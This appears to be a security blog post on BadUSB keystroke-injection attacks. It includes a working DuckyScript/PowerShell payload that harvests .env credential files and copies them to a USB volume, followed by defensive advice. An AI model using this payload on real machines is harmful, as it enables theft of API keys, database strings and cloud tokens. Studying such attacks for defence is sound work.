

Despite the advancements in endpoint security, BadUSB remains one of the most effective physical attack vectors in 2026. By leveraging the inherent trust operating systems place in Human Interface Devices (HID), a malicious USB can bypass most software-based defenses to deliver various payloads.



<!-- truncate -->

## 1. HID Exploitation

When you plug in a BadUSB device, the operating system doesn’t see a "storage drive", it sees a keyboard. Because computers are designed to accept input from users immediately, the device can "type" at superhuman speeds, executing commands before a user even realizes what is happening.

## 2. Scenario: Exfiltrating .env Files

Modern development environments rely heavily on .env files to store sensitive credentials, including API keys, database strings, and cloud provider tokens.

I’ve developed a proof-of-concept script designed for speed. The script as at most 20 seconds to performs the following actions:

1. Discovery: Recursively scans as much common development directories as possible to find files matching the .env pattern.
2. Collection: Aggregates these files into a temporary, hidden directory.
3. Exfiltration: Silently copies the data to a secondary partitioned volume on the USB device.

In a real-world breach, this 20-second window is often all an attacker needs. The loss of environment secrets can lead to:

- Financial Loss: Unauthorized use of paid cloud resources.
- Data Breaches: Access to production databases.
- Supply Chain Attacks: Compromised API keys used in CI/CD pipelines.
  

<iframe
  width="100%"
  style={{aspectRatio: '16/9'}}
  src="https://www.youtube-nocookie.com/embed/KfZWo8MS9Vk?rel=0"
  title="YouTube video"
  frameBorder="0"
  allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
  allowFullScreen
></iframe>
  

I used the Flipper Zeo to deliver a DuckyScript whick gather all `.env` files and exfiltrate then to a USB key.

:::warning
This script and information are for educational purposes only. Executing such programs on hardware you do not own or without explicit, written consent is strictly illegal and unethical.
:::

```PlainText title="env_sniffer.txt"
DELAY 1000
GUI r
DELAY 1000
STRING powershell
ENTER
DELAY 3000
STRING $t=Get-Date -f "yyyyMMdd-HHmm";$log=".\$t.log";try{$j=Start-Job {'Desktop','Documents'|ForEach-Object {Get-ChildItem "$HOME\$_" -Filter *.env* -Recurse -EA 0|?{$_.Name -match '\.env(\..*)?$'}|ForEach-Object {"--- $($_.FullName) ---";gc $_.FullName}}};Wait-Job $j -T 20;Stop-Job $j;Receive-Job $j|Out-File $log -Force;$u=(Get-Volume -FileSystemLabel "MYUSB" -EA 0).DriveLetter;if($u){cp $log "$($u):\" -Force}}finally{exit}
ENTER
```

BadUSB enable a variety of malicious actions, ranging from ransomware deployment to persistent backdoors and privilege escalation.

## 3. How to Protect Yourself

- Hardware Hygiene: Never plug in a USB device from an unknown source.
- Physical Locks: Use Kensington USB Port locks or similar hardware to prevent quick access to ports. According to Nicole Perlroth the Pentagon hot glued its USB ports ...
- OS Hardening: Configure your OS to require a password for new HID devices (if possible).
- Endpoint Protection: If you are an entreprise you can use EDR (Endpoint Detection and Response) tools that can flag "rapid typing" behavior typical of HID scripts.